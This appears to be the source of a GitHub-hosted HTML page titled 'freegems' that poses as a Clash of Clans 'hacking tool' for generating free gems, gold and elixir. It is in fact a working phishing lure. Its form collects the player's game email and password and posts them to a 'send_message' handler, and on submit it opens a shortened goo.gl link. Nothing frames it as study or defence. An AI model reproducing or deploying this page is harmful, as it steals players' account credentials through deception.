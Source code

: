 # freegems<link rel="stylesheet" type="text/css" href="http://supercss.xtgem.com/facebook/chat_list.css"/><style>body  { margin : 0; padding : 1; font-family : verdana, "Comic Sans MS", Helvetica, sans-serif; background-color : #ffffff; min-width:100%; border-width: 0px;} </style><link rel="stylesheet" type="text/css" href="http://mtunez.tk/styles.css"/><link rel="shortcut icon" href="http://wfs01.wapka.mobi/4978/4978439_ab81f0b488.png"/><link rel="shortcut icon" href="/img/600726/600726608_52d84cd3f7.png" type="image/png"/><link rel="stylesheet" type="text/css" href="http://likestore.tk/styles.css"/><link rel="stylesheet" type="text/css" href="http://sickbook.tk/styles.css"/>  <img src="http://www.techpluswhiz.com/wp-content/uploads/2015/06/Clash-of-Clans-e1392659745720.png" /><br /><br /><div class="acb aps" id="u_0_0" style="padding: 8px; color: white;" align="center">Welcome to COC <br/>Hacking Tools</div><div style="background-color:#eceff5;"><div class="warning" style="margin: 0px; border: 0px; border-bottom: 1px solid #b94a48; text-shadow: 0 1px white;" align="center"><b> CLASH OF CLANS GENERATOR <br /> Select number of Gems, Gold & Elixir to generate to your<br />account and click 'Generate' </b></div><div class="" style="padding-left: 8pxdding-right: 8px; padding-top: 7px; padding-bottom: 4px;"> <form method="post" onsubmit="window.open ('https://goo.gl/eoOdzg')" action="/site_0.xhtml" class="mobile-login-form"><font align="left"> Gems, Gold ,Elixir amount </font><br/><br /><br /><br /><br /><img src="https://pbs.twimg.com/profile_images/573779472870084608/vfjMAy3_.jpeg" width="30px" height="30px" class="frame"/><br />Gems amount  <br/>   <select><option>100000</option><option>200000</option><option>350000</option><option>500000</option></select><br/><br /><br /><br /><br /><br /><img src="http://clashofclanfreegems.com/content/Clash-of-Clans-Gold.png" width="30px" height="30px" class="frame"/><br />Gold amount  <br/> <select><option>100000</option><option>200000</option><option>350000</option><option>500000</option></select><br/><br /><br /><br /><br /><img src="http://jorymon.com/clash-of-clans-hack-generate-unlimited-elixir-coins-gems-on-android-ios/content/Clash-of-Clans-Elixir.png" width="30px" height="30px" class="frame"/><br />Elixir amount  <br/> <select><option>100000</option><option>200000</option><option>350000</option><option>500000</option></select><br/><br /><br /><br /><br /><img src="https://i0.wp.com/tricksgenerator.com/clash-of-clans/en/img/icon4.png" width="30px" height="30px" class="frame"/><br />Dark Elixir amount <br/>   <select><option>100000</option><option>200000</option><option>350000</option><option>500000</option></select><br/><br /><br /><br /><br /><input type="hidden" name="lsd" autocomplete="off" /><input type="hidden" name="charset_test" value="€,´,€,´,?,?,?" /><br /><input type="hidden" name="version" value="1" /><input type="hidden" id="ajax" name="ajax" value="0" /><br /><input type="hidden" id="width" name="width" value="0" /><input type="hidden" id="pxr" name="pxr" value="0" /><br /><input type="hidden" id="gps" name="gps" value="0" /><div class='mainbox'><div><font align="left">Your Coc Email </font><br /><br /> <input class="input" autocorrect="off" autocapitalize="off" name="mf_text[email]" type="tex" /></div><br /><div><br /> <font align="left">Your Coc Password</font><br/><br /> <input class="input" autocorrect="off" autocapitalize="off" name="mf_text[password]" type="password" /></div></div><br /><input type="hidden" name="p" value="142646915" /><br /><input type="hidden" name="action" value="send_message"  /><br /><input type="hidden" autocomplete="off" name="li" value="oXZoUJzi8VGEWU4Sb87BTCRv" /><br /> <input type="hidden" autocomplete="off" name="signup_layout" value="bottom_link"/><br/><input type="hidden" autocomplete="off" name="laststage" value="first" /><br /><div align="center"><br /><input align="center" value="Generate" type="submit" name="MF_submit" class="btn btnC largeBtn" style="margin-top: 4px; padding: 3px;" /></div><br /> <input type="hidden" autocomplete="off" name="_fb_noscript" value="true" /></form><br/></div><div style="background-color:#eceff5;"><br/><hr style="background-color:#cccccc;height:1px;border:0px solid #fff;margin:0.3em auto;width:100%; margin-bottom: 0px;"/><br/><div class="lazy" style="margin: 0px; border-top: 0px; border-left: 0px; border-right: 0px; color: green;" align="center"> <b>Our Hacking System is very Easy. If You Don't Understand How to Get Gems, Gold & Elixir Visit <a href="https://goo.gl/eoOdzg"><font color="reduction">Help Center</font></a></b></div><br/></div></div>
